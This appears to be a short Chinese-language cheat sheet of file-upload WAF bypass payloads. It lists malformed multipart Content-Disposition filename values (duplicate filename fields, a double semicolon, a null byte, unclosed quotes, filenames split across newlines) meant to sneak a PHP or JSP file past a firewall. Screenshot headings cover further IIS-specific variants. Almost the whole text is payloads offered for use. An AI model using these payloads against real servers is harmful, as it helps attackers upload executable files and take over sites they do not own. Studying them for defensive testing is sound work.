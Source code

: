 一些payload:

```bash
# 文件名覆盖
filename="1.txt";filename="php.php"

# 遗漏文件名（当WAF遇到name="myfile";;时，认为没有解析到filename。而后端容器继续解析到的文件名是t3.jsp，导致WAF被绕过）
name="myfile";;filename="php.php"


filename="x.php%00.jpg"
filename=php.php;        #去掉双引号和添加一个分号，匹配的是`php.php;`和分号
filename="x.php
filename="'x.php           #后面的单引号没闭合
filename="'x.php"
filename= ;filename="php.php"        #多写几个变量，buwng不往后匹配第一个留空，没有值就

# 文件名回车
filename="x.
p
h
p
"                    #用多个换行(%0a 的url decode)来避开


```

不规则Content-Disposition文件名覆盖:

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220118155331607.png)



多个content-Disnosition文件名覆盖(Win2k8 +IIS7.0+ PHP):

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220118155402339.png)



更换filename位置(iis 6):

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220118155419185.png)



删除content-type字段



删除content-disposition空格:

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220118155441338.png)





修改 Content-Disposition字段值的大小写:

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220118155500736.png)
